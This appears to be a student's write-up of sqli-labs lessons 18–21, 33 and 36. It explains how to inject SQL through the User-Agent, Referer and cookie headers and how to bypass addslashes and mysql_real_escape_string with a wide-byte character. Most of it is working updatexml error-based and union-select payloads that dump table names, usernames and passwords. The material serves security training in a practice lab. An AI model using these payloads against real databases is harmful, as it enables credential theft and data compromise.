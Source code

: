  # lesson  18

http header injections

In less 18 when we enter the page using the username and password the page shows us the information about our user agent header using  <br>  
 $uagent = $_SERVER['HTTP_USER_AGENT']; <br>
and the username and password function are sanitised with <br>
## get_magic_quotes_gpc()<br>
When magic_quotes are on, all ' (single-quote), " (double quote), \ (backslash) and NULs are escaped with a backslash automatically<br>
stripslashes()<br>
Which strips the slashes. (Addslashes() add’s slashes )<br>
## ctype_digit()<br>
A ctype_digit() function in PHP used to check each and every character of text are numeric or not. <br>
It returns TRUE if all characters of the string are numeric otherwise return FALSE.<br>
mysqli_real_escape_string($conn,$var ) <br>
If the input is <br>
I ain’t <br>
The output will be <br>
I ain\’t <br>



these are the filter used to clean the username and password, <br>
but we should find a way to inject our payload into the insert query as uagent header is not sanitised as username and password, we use burp to change the uagent. <br>
 
So before changing the uagent we should understand that what ever we give in uagent the input is quoted and considered as a string so to escape that we give a payload<br>
  ### ‘, payload,’  <br>
So when this goes into to database :

### Insert into uagents values(‘      ’,payload,’       ‘,  ‘username’    ,  ‘password     ‘     );


We don’t need to worry about the number columns coz the xpath error is outputted first than the incorrect column error <br>


So in our payload we can give the update xml payloads<br>


updatexml(rand(),concat(0x3a,(SELECT concat(group_concat(column_name)) FROM information_schema.columns WHERE TABLE_NAME='emails' LIMIT 0,1)),null)--+<br>

updatexml(rand(),concat(0x3a,(SELECT concat(group_concat(table_name)) FROM information_schema.tables WHERE TABLE_schema=database() LIMIT 0,1)),null)--+ <br>
 

 updatexml(rand(),concat(0x3a,(SELECT group_concat(username)) FROM users LIMIT 0,1)),null)--+<br>

updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),group_concat(password),CHAR(126)) FROM users LIMIT 0,1)),null)—+  <br>
 

# Lesson 19 <br>

Same as 18 but the payload is injected into referer header<br>


 #Lesson 20<br>
 
<br>In this lesson we retrieve  the cookie with the username and password. The username and password are cleaned with all the filters <br>
which are used in the less 18 so when we  input special characters in the cookie using burp. <br>
When we add a back slash We get an sql syntax error in ‘\cookie’.

 

<br>The query is different from less 18 and less 19 cuz the query in past lessons and inserting username and ip with it so we get a error like

‘Invalid payload ’, ‘uname’ , ‘ ip ’) <br>
  

But in this lesson we get a error like   ‘  /admin  ’<br>


So let’s  try  to fix the query        cookie’  and payload —+<br>

So Our payloads are<br>

‘And updatexml(rand(), concat(0x3a,(select concat(char(126),group_concat(username),char(126))  from users   ) ), Null)—+<br>
‘And updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),group_concat(password),CHAR(126)) FROM users LIMIT 0,1)),null)—+  <br>
‘ And updatexml(rand(),concat(0x3a,(SELECT group_concat(username) FROM users LIMIT 0,1)),null)--+<br>
‘ And updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),group_concat(password),CHAR(126)) FROM users LIMIT 0,1)),null)—+ <br>

We can also use error based injection to dump the database<br>

# Lesson 21


This lesson is same as last lesson but the cookie is change to base64 so our payload also need to converted to base64 <br>


# Lesson 33
In this lessons we have a addslashes filter which can bypass quotes, double quotes,backslashes so we so when ever we add ‘, “  ,\ <br>
the output will be \’  ,\” , \\ and this is not able to produce any error so we a use a invalid character something like hexadecimal character   0xbf=>�<br>
Which produces out an error and from here we dump our database using union select statement or xpath errors<br>


Our query looks like <br>
For update xml
Id = -1�/‘ and payload<br>
For union select <br>
Id = -1�/‘ payload<br>

update xml payload<br>
And updatexml(rand(), concat(0x3a,(select concat(char(126),group_concat(username),char(126))  from users   ) ), Null)—+<br>
‘And updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),group_concat(password),CHAR(126)) FROM users LIMIT 0,1)),null)—+  <br>
‘ And updatexml(rand(),concat(0x3a,(SELECT group_concat(username) FROM users LIMIT 0,1)),null)--+<br>
‘ And updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),group_concat(password),CHAR(126)) FROM users LIMIT 0,1)),null)—+ <br>

Union select payload<br>

union select 1,2,database()—+
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() limit 0,1—+<br>
union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails' limit 0,1—+<br>
union select 2,group_concat(id),group_concat(email_id) from  emails --+<br>
union select 2,group_concat(password),group_concat(username) from users --+ <br>


# Lesson 36

Same as level 33 <br>

mysql_real_escape_string() works a kind of same like addslashes() which add slashes to the special chars to prevent from sql injection but <br>
we can bypass this using same as level 33 by adding a hexadecimal char.









